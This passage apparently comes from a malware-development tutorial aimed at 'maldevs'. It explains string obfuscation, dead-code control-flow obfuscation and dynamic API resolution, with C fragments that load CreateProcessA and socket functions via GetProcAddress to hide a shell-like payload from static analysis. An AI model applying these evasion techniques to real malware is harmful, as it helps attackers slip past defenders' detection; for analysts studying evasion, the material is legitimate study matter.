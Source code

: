 This simple string obfuscation technique makes it so that this string is no longer readable in the binary file. This makes it harder to look for indicator strings such as: `cmd.exe`.

**Control flow obfuscation**

Much like string obfuscation we can also add control flow obfuscation. Adding useless or "dead" code into the logic of the program can make it much harder to analyze. You use this to disguise the malicious intents of the malware and make it seem like its doing something else.

```c
...

int main() {
  if (condition) {
    // execute payload
  } else {
    // this is never executed
  }
  ...
}
```

**NOTE: It is important to mention that maldevs should not rely on known obfuscation techniques. It would behoove you to come up with your own obfuscation techniques. We added these as an example.**

**Dynamic import loading**

Dynamic import loading (or dynamic API resolution) is a way to load imports without having to statically import them. This hides API calls and prevents static analysis of those API calls. This can be done with functions like `GetProcAddress`.

```c
...

typedef BOOL(WINAPI* CREATEPROCESS)(LPCTSTR, LPTSTR, LPSECURITY_ATTRIBUTES, LPSECURITY_ATTRIBUTES, BOOL, DWORD, LPVOID, LPCTSTR, LPSTARTUPINFO, LPPROCESS_INFORMATION);
typedef SOCKET(WINAPI* SOCKETFUNC)(int, int, int);
typedef int (WINAPI* CONNECT)(SOCKET, const struct sockaddr*, int);
typedef void (WINAPI* CLOSESOCKET)(SOCKET);

int main() {
  ...
  HMODULE hKernel32 = LoadLibraryA("kernel32.dll");
  HMODULE hWs2_32 = LoadLibrary("ws2_32.dll");
  
  CREATEPROCESS pCreateProcess = (CREATEPROCESS)GetProcAddress(hKernel32, "CreateProcessA");
  SOCKETFUNC pSocket = (SOCKETFUNC)GetProcAddress(hWs2_32, "socket");
  CONNECT pConnect = (CONNECT)GetProcAddress(hWs2_32, "connect");
  CLOSESOCKET pClosesocket = (CLOSESOCKET)GetProcAddress(hWs2_32, "closesocket");
  ...
}
```

The above code calls `GetProcAddress` to load the API function instead of directly calling them. This will make it harder to statically analyze these functions within the file itself.
